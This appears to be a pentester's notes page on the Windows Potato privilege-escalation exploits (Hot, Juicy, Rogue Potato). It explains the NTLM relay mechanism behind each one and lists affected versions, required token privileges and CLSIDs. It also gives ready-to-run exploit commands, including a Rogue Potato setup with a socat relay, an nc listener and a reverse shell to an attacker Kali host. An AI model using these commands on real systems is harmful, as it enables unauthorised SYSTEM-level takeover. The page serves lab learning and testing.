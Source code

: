 # Potatoes
```default
                         ,d                 ,d                
                         88                 88                
8b,dPPYba,   ,adPPYba, MM88MMM ,adPPYYba, MM88MMM ,adPPYba,   
88P'    "8a a8"     "8a  88    ""     `Y8   88   a8"     "8a  
88       d8 8b       d8  88    ,adPPPPP88   88   8b       d8  
88b,   ,a8" "8a,   ,a8"  88,   88,    ,88   88,  "8a,   ,a8"  
88`YbbdP"'   `"YbbdP"'   "Y888 `"8bbdP"Y8   "Y888 `"YbbdP"'   
88                                                            
88
```

The potato exploits are a series of **privilege escalation** exploits. A wide variety of Windows versions are vulnerable.

**JuicyPotato** tends to work most often, so if the conditions fit, try that one first. On newer Win10 versions try **Rogue Potato** (current state 2020).

Here is a list of the Potato Exploits, their release dates and the authors I could identify:

* **Hot Potato** - January 2016 - Stephen Breen
* **Rotten Potato** - September 2016 - Stephen Breen, Chris Mallz
* **Rotten Potato NG** (C++ rewrite) - December 2017 - Same authors?
* **Juicy Potato** - August 2018 - Andrea Pierini, Giuseppe Trotta
* **Rogue Potato** - May 2020 - Antonio Cocomazzi

I am not really an expert on this topic, so all the explanations below should be taken with caution. They are just my own attempts at figuring out how these work. Please tell me if something is wrong.


## Hot Potato

* Source: https://github.com/foxglovesec/Potato
* Reference: https://foxglovesecurity.com/2016/01/16/hot-potato/

**Applicable:** Windows 7, 8, early versions of Windows 10 and server counterparts Server 2008, Server 2012.

**Requirements:** See Explanation section.

```default
.\potato.exe -ip <local_windows_ip> -cmd "C:\Privesc\reverseshell.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Use the IP of the machine you are attacking (the one this runs on).

Expected result is a SYSTEM shell.

It is less stable than the other potatoes. Also the UDP spam might cause some problems. I have successfully tested this exploit, but only in my lab.


### Explanation

This is a NBNS (NetBIOS Name Service) UDP flooding attack with NTLM relay.

Many Windows applications will look for a network proxy configuration on "http://wpad/wpad.dat". When the machine asks the network for the address of "WPAD", or "WPAD.DOMAIN.TLD" via NBNS, then the local potato binary spams UDP answers quicker than any other host in the network could, telling the machine that localhost (and specifically our potato server) is the address of the WPAD proxy. Now the potato binary can set up an HTTP proxy server and relay NTLM authentication attempts sent by the machine. With the captured NTLM hash we can then establish a shell via the local SMB service.

DNS and the local hosts file take precedent over NBNS, so DNS needs to be disabled.

If your network has a DNS entry for "WPAD" already, then you can try "-disable_exhaust false". This should cause the DNS lookup to fail and it should fallback to NBNS. This seems to work pretty reliably on Windows 7.


## Juicy Potato

* Source: https://github.com/ohpe/juicy-potato
* Reference (Rotten Potato): https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

**Applicable**: Windows 7, 8, early versions of Windows 10 and server counterparts Server 2008, Server 2012. Requires a service account with token impersonation privileges.

**Requirements:** You have a shell as a service account with **AT LEAST ONE** of the following privileges:

* SeAssignPrimaryTokenPrivilege
* SeImpersonatePrivilege

Check with `whoami /priv`.

These tend to be set to "enabled" for most Service accounts, which makes this a common attack vector.

```default
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverseshell.exe -t * -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
```

I think the user of the shell you receive depends on the CLSID you used, but in general you should receive a SYSTEM shell.


### Explanation

**Juicy Potato** is an extended version of **Rotten Potato** (more specifically RP NG), but unlike RP NG it works on a wider variety of windows versions. The underlying exploitation method is the same for both Rotten and Juicy Potato, so I am only listing the newer Juicy version here.

Similar to the Hot Potato exploit, this exploit is an NTLM relay attack. It tricks the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM to a TCP endpoint we control (compared to the fake proxy used in Hot Potato).

### CLSID's

These will differ depending on the OS you are exploiting.

Known CLSID's as list:

* http://ohpe.it/juicy-potato/CLSID/

How do you find CLSIDs if none from the list work?

Execute the GetCLSID.ps1 powershell script on the target.

http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1


#### Example CLSIDs
```default
Win7 Professional SP1 - {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
Win7 Enterprise - {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Win8.1 Enterprise - {eff7f153-1c97-417a-b633-fede6683a939}
Win10 Enterprise - {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
Win10 Pro - {5B3E6773-3A99-4A3D-8096-7765DD11785C}
WinServer2008 R2 Enterprise - {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
WinServer2012 Datacenter - {e60687f7-01a1-40aa-86ac-db1cbf673334}
WinServer2016 Standard - {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Rogue Potato

* Source: https://github.com/antonioCoco/RoguePotato

**Applicable**: Seems to only work with x64? So far successfully tested on Win10 x64. 

Unlike Hot and Rotten/Juicy, this exploit should still work in newer Windows 10 installations.

**Requirements:** Like Rotten/Juicy Potato this exploit requires a service account with **AT LEAST ONE** of the following privileges: 

* SeAssignPrimaryTokenPrivilege
* SeImpersonatePrivilege


### HowTo

Create a reverse shell binary with msvenom and transfer it together with the roguepotato exploit to the target.

On Kali set up a relay:
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_ip>:9999
```

Also set up a listener for the reverse shell obviously (e.g. `sudo nc -vlnp 53`).

On the Windows target:

```default
.\RoguePotato.exe -r <your_own_kali_machine_ip> -l 9999 -e "C:\PrivEsc\reverseshell.exe"
```

You should receive a SYSTEM shell.
